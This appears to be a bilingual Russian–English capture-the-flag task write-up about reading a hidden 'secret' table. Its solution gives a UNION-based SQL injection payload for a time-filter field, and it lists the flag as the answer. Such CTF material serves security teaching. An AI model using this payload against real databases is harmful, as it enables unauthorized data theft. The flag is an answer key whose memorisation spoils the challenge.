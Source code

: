# SQL что?
## Legend
RU
Насколько уверенно вы чувствуете себя в SQL?

EN
How confident do you feel in your SQL?

## Description
Я знаю, что есть таблица secret, но вот что в ней?
Запусти main.py и получи secret

## Solution
Вставьте SQL иньекцию в строку для фильтрации по времени создания 
' UNION SELECT 12, content, content, NULL from secret --

## Flag 
HITS{FfFflagg1asAsaaaa}
